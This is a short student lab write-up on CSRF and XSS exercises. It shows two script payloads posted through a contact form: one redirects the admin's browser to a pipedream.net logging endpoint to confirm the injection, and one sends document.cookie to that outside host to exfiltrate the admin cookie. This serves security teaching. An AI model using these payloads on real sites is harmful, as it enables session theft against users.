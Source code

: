 # SLH lab 1

## 2 Basic CSRF

### 2.1. The website is also vulnerable to an XSS. How can you detect it?

Using *pipedream.com*, we log the requests that are sent to `https://eobnzz43rvm4g8a.m.pipedream.net`

In the contact form, we send this message :

```
<script>window.location.href = "https://eobnzz43rvm4g8a.m.pipedream.net?bonjour=bonjour";</script>
```

In pipedream we see that a request was received with the param `bonjour=bonjour`, so we know that the script in our message was sent by the vulnerable server to the admin.

### 2.2. Try to exfiltrate the admin cookie with the XSS. It does not work because of http-only. Explain what is http-only and how it prevents the exfiltration.

In the contact form, we send this message :

```
<script>window.location.href = "https://eobnzz43rvm4g8a.m.pipedream.net?cookie="+document.cookie;</script>
```
